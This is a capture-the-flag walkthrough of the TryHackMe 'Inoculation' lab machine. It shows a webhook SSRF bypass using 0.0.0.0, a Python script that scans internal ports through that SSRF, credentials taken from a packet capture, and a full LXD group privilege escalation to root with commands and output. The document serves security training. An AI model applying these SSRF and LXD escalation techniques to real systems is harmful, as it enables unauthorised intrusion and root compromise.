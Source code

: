 ```yaml
---
layout: post
title: Inoculation
date: 2020-09-25 00:00:00 +5:30
categories: [TryHackMe, Hard]
tags: [tryhackme, burp, wireshark, webhooks, lxd] # add tag
image: ![Icon](https://tryhackme-images.s3.amazonaws.com/room-icons/9e836e6ab23ecf6f6e615ec0d6335c6c.jpeg)
---
```


## Description

The Following Post is writeup of Inoculation room of tryhackme <https://tryhackme.com/room/inoculation>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Hard
|Creator | [zayotic](https://tryhackme.com/p/zayotic)

## Summary

The machine have 2 open ports 22 and 80, In port 80 we have a webpage which has webhooks and we can
request to url through that. So requesting 0.0.0.0 calls itself (bypassing the restriction).
Then I fuzz the ports and found there was a port 9999 running inside localhost and contains a wireshark
file. Reading that will give us creds and we got user. The root is lxd privesc.

## Walkthrough

### Enumeration

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:5d:6d:04:17:08:98:fc:67:ae:36:8b:b6:47:d3:2b (RSA)
|   256 cd:a1:63:57:0f:0c:59:fb:12:5b:00:ea:e1:de:75:66 (ECDSA)
|_  256 43:cf:9a:75:12:fd:86:65:bf:76:84:f9:ef:33:4a:d1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inoculation
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So let;s see port 80

#### port 80

![Port](/assets/img/inoculation/port80webhooks.png)
We can see output webhooks and it make a get request whenever we put URL.
But we can only make http or https requests Plus the 127.0.0.1 is restricted.
So i looked for possible bypass and we can use 0.0.0.0 and it  will give the same results.

So Here i stuck for a bit and looked for any solution.
There is a possiblity that this machine have some port listening in it's internal IP.

I tried fuzzing using python

```python
import requests
from bs4 import BeautifulSoup

url = "http://10.10.122.37/testhook.php"
for i in range(1,65535):
    x = str(i)
    var = 'http://0.0.0.0:' + x
    mydata = {'handler': var}
    page = requests.post(url, data = mydata)
    length = len(page.content)
    if length == 0:
        print(x + ' port is not correct')
        continue
    else:
        soup = BeautifulSoup(page.content, 'html.parser')
        print(soup.prettify())
```

So this thing ran for about an hour and two.(sooooo.... long :( )
and we got port 9999
![Port](/assets/img/inoculation/webhooks9999.png)

![dump.pcap](/assets/img/inoculation/dumppcap.png)
seeing the port there is a dump.pcap and it have a information about user and password.

### Exploitation

![Port](/assets/img/inoculation/login.png)

```bash
[+] My user
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#groups
uid=1000(maynard) gid=1000(maynard) groups=1000(maynard),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

maynard@inoculation:/tmp$ wget 10.8.108.114:8001/alpine.tar.gz
--2020-09-25 05:59:12--  http://10.8.108.114:8001/alpine.tar.gz
Connecting to 10.8.108.114:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3109440 (3.0M) [application/gzip]
Saving to: ‘alpine.tar.gz’

alpine.tar.gz                     100%[==========================================================>]   2.96M   383KB/s    in 10s     

2020-09-25 05:59:22 (298 KB/s) - ‘alpine.tar.gz’ saved [3109440/3109440]

maynard@inoculation:/tmp$ lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
^C
maynard@inoculation:/tmp$ chmod +x alpine.tar.gz
maynard@inoculation:/tmp$ lxc image import ./alpine.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: cb2dd242acb16b000400807128b9a7110c603cc5f097873835541955c7a64631
maynard@inoculation:/tmp$ ~
-bash: /home/maynard: Is a directory
maynard@inoculation:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cb2dd242acb1 | no     | alpine v3.12 (20200826_12:01) | x86_64 | 2.97MB | Sep 25, 2020 at 11:00am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
maynard@inoculation:/tmp$ 1

1: command not found
maynard@inoculation:/tmp$
maynard@inoculation:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cb2dd242acb1 | no     | alpine v3.12 (20200826_12:01) | x86_64 | 2.97MB | Sep 25, 2020 at 11:00am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
maynard@inoculation:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
maynard@inoculation:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
maynard@inoculation:/tmp$ lxc start ignite
maynard@inoculation:/tmp$ lxc exec ignite /bin/sh
id~ # id
uid=0(root) gid=0(root)
~ # bash
/bin/sh: bash: not found
~ # cd /mnt
/mnt # ls
```

Rooted
